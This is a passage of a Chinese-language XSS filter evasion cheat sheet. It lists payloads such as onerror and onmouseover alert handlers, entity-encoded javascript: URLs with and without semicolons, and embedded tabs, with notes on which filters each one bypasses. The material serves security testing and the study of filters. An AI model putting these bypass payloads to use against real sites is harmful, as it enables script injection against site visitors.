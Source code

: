 <pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">onmouseover</span>=<span class="hljs-string">"alert('xxs')"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t18"></a><a name="t18"></a>通过error事件触发alert</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">/</span> <span class="hljs-attr">onerror</span>=<span class="hljs-string">"alert(String.fromCharCode(88,83,83))"</span>&gt;</span><span class="hljs-tag">&lt;/<span class="hljs-name">img</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t19"></a><a name="t19"></a>十进制html编码引用</h2>
<p>所有在使用javascript指令的xss示例将无法工作在 Firefox 或 Netscape 8.1+，因为它们使用了 Gecko 渲染引擎。使用 XSS <a href="http://ha.ckers.org/xsscalc.html" rel="nofollow">Calculator</a> 获取更多信息。</p>
<pre><code class="hljs delphi"><ol class="hljs-ln" style="width:959px"><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="1"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line">&lt;IMG SRC=&amp;<span class="hljs-string">#106</span>;&amp;<span class="hljs-string">#97</span>;&amp;<span class="hljs-string">#118</span>;&amp;<span class="hljs-string">#97</span>;&amp;<span class="hljs-string">#115</span>;&amp;<span class="hljs-string">#99</span>;&amp;<span class="hljs-string">#114</span>;&amp;<span class="hljs-string">#105</span>;&amp;<span class="hljs-string">#112</span>;&amp;<span class="hljs-string">#116</span>;&amp;<span class="hljs-string">#58</span>;&amp;<span class="hljs-string">#97</span>;&amp;<span class="hljs-string">#108</span>;&amp;<span class="hljs-string">#101</span>;&amp;<span class="hljs-string">#114</span>;&amp;<span class="hljs-string">#116</span>;&amp;<span class="hljs-string">#40</span>;</div></div></li><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="2"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line">&amp;<span class="hljs-string">#39</span>;&amp;<span class="hljs-string">#88</span>;&amp;<span class="hljs-string">#83</span>;&amp;<span class="hljs-string">#83</span>;&amp;<span class="hljs-string">#39</span>;&amp;<span class="hljs-string">#41</span>;&gt;</div></div></li></ol></code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t20"></a><a name="t20"></a>结尾没有分号的十进制html编码引用</h2>
<p>他是经常有用的在绕过寻找"&amp;#XX;"格式的xss过滤，因为大多数人不知道最多允许7位字符的编码限制。这也是有用的对那些对字符串解码像$tmp_string =~ s/.<em>\&amp;#(\d+);.</em>/$1/; ,错误的认为一个html编码需要用;去结束。（我是无意中发现）</p>
<pre><code class="hljs delphi">&lt;IMG SRC=&amp;<span class="hljs-string">#0000106</span>&amp;<span class="hljs-string">#0000097</span>&amp;<span class="hljs-string">#0000118</span>&amp;<span class="hljs-string">#0000097</span>&amp;<span class="hljs-string">#0000115</span>&amp;<span class="hljs-string">#0000099</span>&amp;<span class="hljs-string">#0000114</span>&amp;<span class="hljs-string">#0000105</span>&amp;<span class="hljs-string">#0000112</span>&amp;<span class="hljs-string">#0000116</span>&amp;<span class="hljs-string">#0000058</span>&amp;<span class="hljs-string">#0000097</span>&amp;<span class="hljs-string">#0000108</span>&amp;<span class="hljs-string">#0000101</span>&amp;<span class="hljs-string">#0000114</span>&amp;<span class="hljs-string">#0000116</span>&amp;<span class="hljs-string">#0000040</span>&amp;<span class="hljs-string">#0000039</span>&amp;<span class="hljs-string">#0000088</span>&amp;<span class="hljs-string">#0000083</span>&amp;<span class="hljs-string">#0000083</span>&amp;<span class="hljs-string">#0000039</span>&amp;<span class="hljs-string">#0000041</span>&gt;
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t21"></a><a name="t21"></a>结尾没有分号的十六进制html编码引用</h2>
<p>这也是一种实用的xss攻击针对上文的$tmp_string =~ s/.<em>\&amp;#(\d+);.</em>/$1/; ，错误的认为数字编码跟随在#后面（十六进制htnl编码并非如此），。使用 XSS <a href="http://ha.ckers.org/xsscalc.html" rel="nofollow">Calculator</a> 获取更多信息。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">&amp;#x6A&amp;#x61&amp;#x76&amp;#x61&amp;#x73&amp;#x63&amp;#x72&amp;#x69&amp;#x70&amp;#x74&amp;#x3A&amp;#x61&amp;#x6C&amp;#x65&amp;#x72&amp;#x74&amp;#x28&amp;#x27&amp;#x58&amp;#x53&amp;#x53&amp;#x27&amp;#x29</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t22"></a><a name="t22"></a>内嵌TAB</h2>
<p>用来分开xss攻击代码</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">"jav   ascript:alert('XSS');"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t23"></a><a name="t23"></a>内嵌被编码的TAB</h2>
<p>用来分开xss攻击代码</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">"jav&amp;#x09;ascript:alert('XSS');"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t24"></a><a name="t24"></a>内嵌换行符去分开xss代码</h2>
